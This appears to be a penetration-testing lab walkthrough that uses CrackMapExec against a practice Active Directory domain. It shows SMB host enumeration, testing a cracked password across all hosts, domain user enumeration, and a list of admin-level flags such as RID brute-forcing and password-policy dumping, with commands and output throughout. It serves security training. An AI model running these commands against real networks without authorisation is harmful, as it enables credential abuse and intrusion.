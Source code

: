 +++
title = "CrackMapExec"
weight = 50
+++

## 1. Windows Enumeration
CrackMapExec is a fantastic tool created by Porchetta Industries for enumerating and attacking Active Directory environments.
We can leverage the *hosts/windows.txt* file to learn more about our target environment.

*  **Wiki** [https://wiki.porchetta.industries/](https://wiki.porchetta.industries/)S
*  **GitHub** [https://github.com/Porchetta-Industries/CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)

`crackmapexec smb hosts/windows.txt`

```bash
KEPLER-LINSRV14  [*] Windows 6.1 (name:KEPLER-LINSRV14) (domain:) (signing:False) (SMBv1:True)
FEYNMAN-WINSRV1  [*] Windows 10.0 Build 20348 x64 (name:FEYNMAN-WINSRV1) (domain:Sciencerocks.local) (signing:False) (SMBv1:False)
HAWKINGWINSRV19  [*] Windows 10.0 Build 20348 x64 (name:HAWKINGWINSRV19) (domain:Sciencerocks.local) (signing:False) (SMBv1:False)
EINSTEIN-DC01    [*] Windows 10.0 Build 20348 x64 (name:EINSTEIN-DC01) (domain:Sciencerocks.local) (signing:True) (SMBv1:False)
```

This first command tells us quite a bit about the Windows targets in our engagement:

* DNS Name
* Operating System
* Active Directory Domain
* SMB version
* SMB signing

## 2. Testing AD Credentials
We can pass the credentials we cracked with hascat to all of our *windows.txt* targets and see what systems our user has access to.

`crackmapexec smb hosts/windows.txt -u richard.f -p "Security24-7"`

```bash
SMB         192.168.0.104   445    KEPLER-LINSRV14  [+] \richard.f:Security24-7 
SMB         192.168.0.130   445    FEYNMAN-WINSRV1  [+] Sciencerocks.local\richard.f:Security24-7 
SMB         192.168.0.120   445    HAWKINGWINSRV19  [+] Sciencerocks.local\richard.f:Security24-7 
SMB         192.168.0.100   445    EINSTEIN-DC01    [+] Sciencerocks.local\richard.f:Security24-7
```
This output confirms that the AD credentials we cracked are valid.  The *[+]* indicates that CrackMapExec successfuly logged in to each machine.
However, the missing *(Pwn3d!)* badge lets us know we do not have Admin on any of these systems.

## 3. Enumerating Active Directory Users
We can also use crackmapexec to identify valid user accounts which could be later targeted with password guessing should we decide to go that route.

`crackmapexec smb hosts/windows.txt -u richard.f -p "Security24-7" --users`

```bash
SMB         192.168.0.100   445    EINSTEIN-DC01    [-] Error enumerating domain users using dc ip 192.168.0.100: unsupported hash type MD4
SMB         192.168.0.100   445    EINSTEIN-DC01    [*] Trying with SAMRPC protocol
SMB         192.168.0.120   445    HAWKINGWINSRV19  [+] Sciencerocks.local\richard.f:Security24-7 
SMB         192.168.0.104   445    KEPLER-LINSRV14  [+] \richard.f:Security24-7 
SMB         192.168.0.100   445    EINSTEIN-DC01    [+] Enumerated domain user(s)
SMB         192.168.0.104   445    KEPLER-LINSRV14  [-] Error enumerating domain users using dc ip 192.168.0.104: socket connection error while opening: [Errno 111] Connection refused
SMB         192.168.0.104   445    KEPLER-LINSRV14  [*] Trying with SAMRPC protocol
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\Administrator                  Built-in account for administering the computer/domain
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\Guest                          Built-in account for guest access to the computer/domain
SMB         192.168.0.104   445    KEPLER-LINSRV14  [+] Enumerated domain user(s)
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\krbtgt                         Key Distribution Center Service Account
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\albert.e                       
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\isaac.n                        
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\johannes.k                     
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\richard.f                      
SMB         192.168.0.104   445    KEPLER-LINSRV14  [+] Enumerated domain user(s)
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\marie.c                        
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\server.admin                   
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\neil.degrasse        
```

## 4. Additional Enumeration Flags (requires admin)
Once you obtain admin level creds to a host check out these other reall useful flags:

```bash
Mapping/Enumeration:
  Options for Mapping/Enumerating

  --shares              enumerate shares and access
  --sessions            enumerate active sessions
  --disks               enumerate disks
  --loggedon-users-filter LOGGEDON_USERS_FILTER
                        only search for specific user, works with regex
  --loggedon-users      enumerate logged on users
  --users [USER]        enumerate domain users, if a user is specified than
                        only its information is queried.
  --groups [GROUP]      enumerate domain groups, if a group is specified than
                        its members are enumerated
  --computers [COMPUTER]
                        enumerate computer users
  --local-groups [GROUP]
                        enumerate local groups, if a group is specified then
                        its members are enumerated
  --pass-pol            dump password policy
  --rid-brute [MAX_RID]
                        enumerate users by bruteforcing RID's (default: 4000)
  --wmi QUERY           issues the specified WMI query
  --wmi-namespace NAMESPACE
                        WMI Namespace (default: root\cimv2)
```
